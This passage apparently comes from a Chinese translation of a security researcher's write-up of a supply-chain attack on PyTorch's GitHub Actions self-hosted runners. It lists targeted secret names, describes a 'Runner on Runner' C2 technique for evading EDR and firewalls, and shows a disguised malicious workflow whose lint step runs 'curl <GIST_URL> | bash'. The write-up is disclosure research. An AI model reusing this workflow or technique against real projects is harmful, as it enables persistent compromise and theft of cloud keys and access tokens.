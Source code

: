 ### 探索潜在影响

在发起攻击之前，我们通常会先确认，在登陆运行环境后，我们可能能够窃取哪些 GitHub 密钥。工作流文件显示了 PyTorch 使用的一些 GitHub 密钥，包括但不限于：

- “aws-pytorch-uploader-secret-access-key”
- “aws-access-key-id”
- “GH_PYTORCHBOT_TOKEN”（GitHub 个人访问令牌）
- “UPDATEBOT_TOKEN”（GitHub 个人访问令牌）
- “conda-pytorchbot-token”

当我们发现 `GH_PYTORCHBOT_TOKEN` 和 `UPDATEBOT_TOKEN` 时，我们异常兴奋。**个人访问令牌 (PAT) 是发动供应链攻击的最有力工具之一。**

利用自托管运行环境窃取 GitHub 密钥并非总是可行的。我们的许多研究集中在自托管运行环境的后期利用上，即探索如何从运行环境获取到密钥的方法。PyTorch 提供了一个绝佳的机会，让我们在实际环境中测试这些技术。

## 发起攻击

### 纠正一个拼写错误

为了成为 PyTorch 仓库的贡献者并执行工作流，我们并不打算花时间去为 PyTorch 增加新功能。反而，我们发现了 markdown 文件中的一个打字错误并进行了修正。**又一次给“语法警察”加分了**。

![语法警察的又一次胜利](https://slefboot-1251736664.file.myqcloud.com/20240118_supply_chain_attack_on_pytorch_grammar_police.png)

没错，我又用到了我[上篇文章](https://johnstawinski.com/2024/01/05/worse-than-solarwinds-three-steps-to-hack-blockchains-github-and-ml-through-github-actions/)中的那个梗，但它实在太合适了。

### 编写工作流配置

现在，我们需要编写一个工作流的内容，以实现在自托管运行环境中的持久化。红队成员都明白，在生产环境中实现持久化远非反向 Netcat shell 那么简单，尤其是在大型企业环境，可能会涉及到**端点检测与响应** (EDR)、防火墙、数据包检查等复杂因素。

我们在策划这些攻击时，思考了一个问题 — 我们能用哪种指挥和控制(C2)方式来确保能绕过 EDR，并且不会被任何防火墙阻挡？答案既明显又巧妙 — **我们可以安装一个额外的自托管 GitHub 运行环境，并将其连接到我们自己的私有 GitHub 组织中。**

我们的 “**Runner on Runner**” (RoR) 技术利用与现有运行环境相同的服务器进行指挥和控制，我们部署的唯一二进制文件是已在系统上运行的官方 GitHub 运行器代理。这样一来，EDR 和防火墙保护就无效了。

我们编写了一个脚本来自动完成运行环境的注册过程，并将其作为恶意工作流有效载荷。我们把有效内容保存在 GitHub 上的一个代码片段 (gist) 中，并提交了一个恶意的草稿 PR。修改后的工作流大致如下：

```yaml
name: “🚨 pre-commit”
run-name: “Refactoring and cleanup”
on:
 pull_request:
   branches: main
jobs:
 build:
   name: Linux ARM64
   runs-on: ${{ matrix.os }}
   strategy:
     matrix:
       os: [
             {system: “ARM64”, name: “Linux ARM64”},
             {system: “benchmark”, name: “Linux Intel”},
             {system: “glue-notify”, name: “Windows Intel”}
       ]
   steps:
     – name: Lint Code Base
       continue-on-error: true
       env:
          VERSION: ${{ matrix.version }}
          SYSTEM_NAME: ${{ matrix.os }}
       run: curl <GIST_URL> | bash
```
